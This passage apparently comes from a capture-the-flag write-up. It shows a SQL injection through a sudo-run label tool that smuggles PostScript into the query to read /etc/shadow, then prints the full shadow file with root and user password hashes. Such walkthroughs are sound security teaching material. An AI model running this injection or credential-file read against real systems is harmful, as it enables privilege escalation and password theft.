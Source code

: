     /outfile (output.txt) (w) file def
    outfile exch  writestring
    outfile closefile 



I'll need to increase the number on the second line, as that's the
number of bytes to be read, and I want more than 100. I'll run this via
the SQL injection:


    neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
    > 
    > /inputfile (/etc/shadow) (r) file def
    > inputfile 10000 string readstring
    > pop
    > inputfile closefile
    > 
    > /outfile (output.txt) (w) file def
    > outfile exch  writestring
    > outfile closefile 
    > 
    > (test", 2,3,4,5,6,7'
    Fetching order...
    Generating PostScript file...
    Generating PDF (until the printer gets fixed...)
    Documents available in /tmp/tmpqsikna5vprintgen
    neil@bookworm:~$ cat output.txt 
    root:$6$X.PJezLobVQOLuGu$nDnaPx.G5/nXr9I7WI0h8Sw0vjeFcOChirHr1s0zNyaid7X5U26fB5MXOIQB/oR4fb7xiaN/.bXdfAkGwtXL6.:19387:0:99999:7:::
    daemon:*:18375:0:99999:7:::
    bin:*:18375:0:99999:7:::
    sys:*:18375:0:99999:7:::
    sync:*:18375:0:99999:7:::
    games:*:18375:0:99999:7:::
    man:*:18375:0:99999:7:::
    lp:*:18375:0:99999:7:::
    mail:*:18375:0:99999:7:::
    news:*:18375:0:99999:7:::
    uucp:*:18375:0:99999:7:::
    proxy:*:18375:0:99999:7:::
    www-data:*:18375:0:99999:7:::
    backup:*:18375:0:99999:7:::
    list:*:18375:0:99999:7:::
    irc:*:18375:0:99999:7:::
    gnats:*:18375:0:99999:7:::
    nobody:*:18375:0:99999:7:::
    systemd-network:*:18375:0:99999:7:::
    systemd-resolve:*:18375:0:99999:7:::
    systemd-timesync:*:18375:0:99999:7:::
    messagebus:*:18375:0:99999:7:::
    syslog:*:18375:0:99999:7:::
    _apt:*:18375:0:99999:7:::
    tss:*:18375:0:99999:7:::
    uuidd:*:18375:0:99999:7:::
    tcpdump:*:18375:0:99999:7:::
    landscape:*:18375:0:99999:7:::
    pollinate:*:18375:0:99999:7:::
    usbmux:*:19386:0:99999:7:::
    sshd:*:19386:0:99999:7:::
    systemd-coredump:!!:19386::::::
    lxd:!:19386::::::
    frank:$6$iQwYpaCFHgzFXVbi$gAKLi4oKtDPb4uaCGW3RkabZ8DyAnQfxbaqhoiAeAsGmP776eOyQt6bvYPPUJ4PAe2PJPanzm3sH5KSiqzrlF.:19387:0:99999:7:::
    neil:$6$rN642RtN9dzlaylh$/7DIfm9515mWvCPWM/wL/ANkJJPtKkUNURqcmu/VseEhLch1pQgX7c3l3ij2vA3MmM3PZV5WOrLM7u3gy2V3W1:19387:0:99999:7:::
